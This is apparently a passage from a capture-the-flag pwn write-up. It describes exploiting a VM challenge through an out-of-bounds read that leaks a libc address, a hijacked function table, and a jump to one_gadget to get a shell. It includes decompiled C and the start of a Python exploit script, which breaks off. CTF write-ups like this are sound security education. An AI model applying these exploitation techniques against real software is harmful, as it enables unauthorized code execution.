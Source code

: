 The analysis proved to be very accurate, as I successfully hijacked the function table entries and controlled several parameters to be zero. Therefore, my plan was to invoke `one_gadget` to achieve `get_shell`.

But how to obtain the libc address? This puzzled me for a long time, until I finally realized that the memory copying functionality was intended for acquiring addresses:

```c
unsigned __int64 __fastcall sub_1966(__int64 a1, unsigned int a2)
{
  unsigned __int8 v3; // [rsp+17h] [rbp-829h]
  unsigned __int64 i; // [rsp+18h] [rbp-828h]
  unsigned __int64 j; // [rsp+20h] [rbp-820h]
  __int64 v6; // [rsp+28h] [rbp-818h]
  __int64 v7[257]; // [rsp+30h] [rbp-810h]
  unsigned __int64 v8; // [rsp+838h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v3 = get_last8_arg(a2);
  v6 = get_p16_arg(a1, a2) + 0x930 + a1 + 8;
  for ( i = 0LL; i <= 0xFF; ++i )
    v7[i] = *(_QWORD *)(a1 + 8 * (i + 38) + 8);
  for ( j = 0LL; j < v3; ++j )
    *(_QWORD *)(a1 + 8 * (j + 38) + 8) = v7[*(unsigned __int8 *)(v6 + j)];
  next_i(a1);
  return __readfsqword(0x28u) ^ v8;
}
```

By exploiting an out-of-bounds condition, it's possible to treat a piece of data on the stack as an array index. I identified `__libc_start_main+243` because its last byte is fixed. To prevent errors, I pre-set the value corresponding to 0x83 to be the VM's PC pointer.

#### Final exp.py

After that, I performed some calculations to get `one_gadget` in VM memory and realized `get_shell`:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

# 0x7fffffffd498 —▸ 0x7ffff7df9083 (__libc_start_main+243)

# -2532 = 0xfffffffffffff6d0
# target= 0xfffffffffffff810 (0x148)

bytecode_list = []

for i in range(1, 0xFF + 1):
    bytecode_list += [((i << 16) | (i << 8) | 0x06)]

bytecode_list[0] = 0x00830106
bytecode_list[0x83] = 0x04008306

bytecode = flat(
    bytecode_list,
    word_size=32,
)

```